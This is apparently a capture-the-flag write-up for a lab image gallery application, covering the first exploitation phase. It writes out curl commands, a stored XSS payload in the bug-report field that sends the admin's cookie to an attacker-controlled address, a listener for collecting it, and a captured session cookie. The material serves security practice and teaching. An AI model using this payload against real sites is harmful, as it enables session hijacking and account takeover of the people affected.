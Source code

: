 Visiting `http://10.10.11.88:8000` reveals an image gallery application with the following features:
- User registration and authentication
- Image upload functionality
- Image transformation tools (crop, rotate, etc.)
- Bug reporting system
- Admin panel (restricted access)

## Exploitation Chain

### Phase 1: Initial Access via XSS

#### Step 1: User Registration

The application allows new user registration at `/register`. We create a test account:

```bash
curl -X POST http://10.10.11.88:8000/register \
  -H "Content-Type: application/json" \
  -d '{"username":"test@test.com","password":"test123"}'
```

**Response:**
```json
{"message":"Registration successful. You can now log in.","success":true}
```

#### Step 2: Cookie Stealing via XSS

The bug reporting feature is vulnerable to stored XSS. Admin users review submitted bug reports, allowing us to steal their session cookies.

**XSS Payload:**
```html
<img src=1 onerror="document.location='http://10.10.14.xx/steal/'+document.cookie">
```

**Setup cookie receiver:**
```bash
# Start HTTP server to receive stolen cookies
sudo python3 -m http.server 80
```

**Submit bug report:**
```bash
curl -X POST http://10.10.11.88:8000/report_bug \
  -H "Content-Type: application/json" \
  -H "Cookie: session=YOUR_SESSION" \
  -d '{"bugName":"test","bugDetails":"<img src=1 onerror=\"document.location='\''http://10.10.14.xx/steal/'\''+document.cookie\">"}'
```

**Captured admin cookie:**
```
session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP...
```
